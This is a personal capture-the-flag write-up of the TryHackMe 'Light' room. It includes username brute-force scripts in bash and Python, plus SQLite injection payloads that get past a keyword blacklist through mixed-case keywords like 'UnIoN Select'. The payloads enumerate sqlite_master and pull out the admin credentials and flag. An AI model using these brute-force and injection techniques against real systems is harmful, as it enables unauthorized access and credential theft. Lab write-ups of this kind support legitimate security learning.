 # Light (\*\*pending further experimentations)

I started on this challenge with minimal knowledge of SQL/SQLite commands and workings (just the basics as learnt from the TryHackMe course room detailed under the Web Hacking -> SQL Injection section in this gitbook: [https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/web-hacking/sql-injection](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking/web-hacking/sql-injection)). I have gained ideas and insights from a few online resources and also from _ChatGPT_.

Note: _ChatGPT_ was used to point myself towards the right direction on SQLite specific concepts such as commands to retrieve the table or columns names from the current database instance, but not on specific SQL injection concepts. The SQL injection commands were generated by myself based on multple trial-and-errors. For example, commands to query from `sqlite_master` was generated by ChatGPT, however, the insertion of specific characters (eg. quotation marks, equal signs, etc.) within the final command sent to the vulnerable database application was added myself based on my own knowledge from past experiences.



_**Bash script to brute force the password:**_

```bash
#!/usr/bin/bash

filename="/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt"

while IFS="" read -r line; do
	# eg. echo smokey | nc <target> 1337
	res=$(echo "$line" | nc -w 1 <target> 1337)

	if [[ "$res" == *"not found"* ]]; then
		# if the substring "not found" is present, means user not found
		...
	else
		# print success message and exit
		...
	fi;

done < "$filename"


```

_**Python script:**_

```python
#!/usr/bin/python3

import socket

HOST='10.10.34.209'
PORT=1337
#filename='/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt'
#filename='test.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/names.txt'
#filename='/usr/share/wordlists/SecLists/Usernames/Names/femalenames-usa-top1000.txt'
#filename='Security-Research/tools/aws-pentest-tools/iam_user_enum/default-word-list.txt'
filename='wordlist/usernames.txt'

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST,PORT))
    s.recv(1024) # flush 1
    s.recv(1024) # flush 2


    f = open(filename, 'r')

    for username in f:
        if len(username) <= 10:
            continue

        username = username.lower()

        print(f'[!] Trying {username.replace('\n', '')}', end=' ')
        
        s.send(bytes(username, 'utf-8'))
        data = s.recv(1024)
        str_data = str(data, 'utf-8')

        if 'not found' in str_data:
            print('failed')
            s.recv(50)

        else:
            print(str_data)
            break

    f.close()

```

_**Word-lists to try out**_:

1. /`usr/share/wordlists/seclists/Usernames/Names/names.txt`
2. `/usr/share/wordlists/seclists/Usernames/Names/malenames-usa-top1000.txt`&#x20;
3. `/usr/share/wordlists/seclists/Usernames/Names/femalenames-usa-top1000.txt`

I found the username: alice. However this wasn't the admin username. Probably a rookie mistake on my part for not realizing sooner that an SQL injection is likely to be more feasible.&#x20;

### SQL Injection

I noticed that the input form length is very long, and realized that it's highly unlikely that I would be able find the username with a simple brute-force.&#x20;

As suggested from the challenge name, this database is likely to be a SQLite database application.

**Possible SQL statements on the server side:**

```sql
SELECT * FROM users WHERE name='smokey';
```

**Attempts with common SQL injection inputs:**

1. _**Force the statement to resolve to true**_

Potentially tricking the database to return all the users

```sql
' OR 1=1 --
```

```sql
SELECT * FROM users WHERE name='' OR 1=1--';
```

**Reponse**: _For strange reasons I can't explain, any input containing /\*, -- or, %0b is not allowed :)_

This tells us that comment characters are banned.

**Another attempt:**

```sql
' OR ''='
```

```sql
SELECT * FROM users WHERE name='' OR ''='';
```

This seems to return a password value (that is returned from the _alice_ username).&#x20;



2. _**UNION and SELECT statement**_

The UNION and SELECT keywords (along with their lower capital variations) are all banned too

```sql
UNION
SELECT
union
select
```

**Reponse**: _Ahh there is a word in there I don't like :(_

3. _**Obfuscation of keywords**_

After pondering for awhile on the error message returned from the statement in point 2 above, I got the idea of using non-standard SQL keyword commands, apart from the conventional fully capitalized, or fully non-capitalized versions (eg. `UNION`, `union`).

```sql
--**
' Union Select name from sqlite_master where type = 'table' '=
--OUTPUT: Error: near "'='": syntax error

--**
' Union Select name from sqlite_master where type = 'table' OR '=
--OUTPUT: Password: admintable


--**
' Union Select * from admintable '=
--OUTPUT: Error: SELECTs to the left and right of UNION do not have the same number of result columns

--** to resolve the first half of the UNION to false (since anything with AND '1=0' will always be false)
' AND '1=0' Union Select * from admintable '=
--OUTPUT: Error: SELECTs to the left and right of UNION do not have the same number of result columns


--** TRYING TO GET COLUMN NAMES OF THE TABLE 'admintable'
-- ** NOTICE the different cases of the letters, different from: UNION, union
' Union Select sql FROM sqlite_master WHERE type = 'table' AND name = 'users' OR '=
--OUTPUT: 
/*
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
*/

--**
' Union Select username from admintable '
--OUTPUT: Password: TryHackMeAdmin

--** Union keyword has funny capitalization, but works nonetheless
' UnIoN Select password from admintable '
--OUTPUT: Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}

--**
' UNion Select password from admintable where username='TryHackMeAdmin' or '=
--OUTPUT: Password: mamZtAuMlrsEy5bp6q17



```

From the results, I have learnt that SQLite accepts variations of SQL keywords, such as but not limited to: `Union`, `uNion`, `unIon`, `uniOn`, `UNion`, etc. are allowed, and are treated as valid commands.





ARCHIVE (pending deletion):

<pre class="language-sql"><code class="lang-sql">-- 1)
--INPUT: ' OR 1=1 
-- Error: unrecognized token:  "' LIMIT 30" 

--3) 
--INPUT: ' OR 1=1;
--Pause with no response

--2) 
--INPUT: 'UNION 
<strong>--Ahh there is a word in there I don't like :(
</strong>
--3)
--INPUT: 'SELECT
--Ahh there is a word in there I don't like :(

--4)
<strong>--INPUT: '--
</strong>--For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)

--5) 
--INPUT: '' LIMIT 30 OR '1=1;
--Error: near "LIMIT": syntax error

</code></pre>



{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md" %}

{% embed url="https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#FindColumnsHavingGroupbyErrorBased" %}

{% embed url="https://www.tutlane.com/tutorial/sqlite/sqlite-injection-attacks" %}
